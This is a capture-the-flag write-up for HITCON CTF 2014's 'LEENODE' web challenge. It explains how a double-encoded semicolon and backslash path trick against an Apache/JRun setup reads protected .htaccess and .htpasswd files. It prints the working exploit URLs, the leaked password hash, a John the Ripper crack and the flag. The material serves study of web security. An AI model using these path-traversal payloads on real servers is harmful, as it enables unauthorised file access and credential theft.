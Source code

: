 # HITCON CTF 2014: LEENODE

**Category:** Web
**Points:** 250
**Description:**

> http://203.66.57.98/

## Write-up

# HITCON CTF 2014: LEENODE

**Category:** Web
**Points:** 250
**Description:**

> http://203.66.57.98/

## Write-up
[Source](https://wiki.mma.club.uec.ac.jp/CTF/Writeup/HITCON2014/LEENODE) (Modified only slightly for grammar and Markdown formatting)

1. Perhaps what we need to do is access the /admin/ directory
2. The server is Apache/2.0.65 (Unix) JRun/4.0 Server
3. *.jsp was redirected to JRun Server 
*  [http://203.66.57.98/a.jsp](http://203.66.57.98/a.jsp)
4. A vulnerability for JRun exists publicly
* [http://www.kb.cert.org/vuls/id/977440](http://www.kb.cert.org/vuls/id/977440)
5. [http://203.66.57.98/a;.jsp](http://203.66.57.98/a;.jsp) gives a 500 Internal Server Error. Interestingly enough Apache serves up this error, not JRun as expected.
6. Escaping the URL for Apache as such [http://203.66.57.98/a%253b.jsp](http://203.66.57.98/a%253b.jsp) gives a 404 Error by JRun instead of the expected Apache.
7. Apache blocks many attempts to read `/.htaccess` and `/admin/.htaccess` so other tricks are needed.
8. It is discovered that JRun recognizes backslash as a directory separator as [http://203.66.57.98/.%5Ca%253b.jsp](http://203.66.57.98/.%5Ca%253b.jsp) was handled as /a by JRun.
9. Eventually `/admin/.htaccess` and `/admin/.htpasswd` are read using the following URLs respectively
[http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp)
[http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp)

.htaccess reads as follows

```
AuthName "Restricted Area" 
AuthType Basic 
AuthUserFile /usr/local/apache2/htdocs/admin/.htpasswd 
AuthGroupFile /dev/null 
require valid-user
```
.htpasswd reads as follows


```
hitc0n_1een0de:nlGc3XNhkrL1o

```

10. Let's use John the Ripper to crack the password

```
% john htpasswd
ktw2z            (hitc0n_1een0de)
guesses: 1  time: 0:00:01:13 DONE (Sat Aug 16 20:58:25 2014)  c/s: 5319K  trying: ktkcK - kk4iT
```

The password is `ktw2z`

11. Visit [http://203.66.57.98/admin/thefl4g.txt](http://203.66.57.98/admin/thefl4g.txt) and get the flag

```
The flag is HITCON{u_d0nt_f0rg3t_d0uble_3nc0ding!}
```

## Other write-ups

* none yet
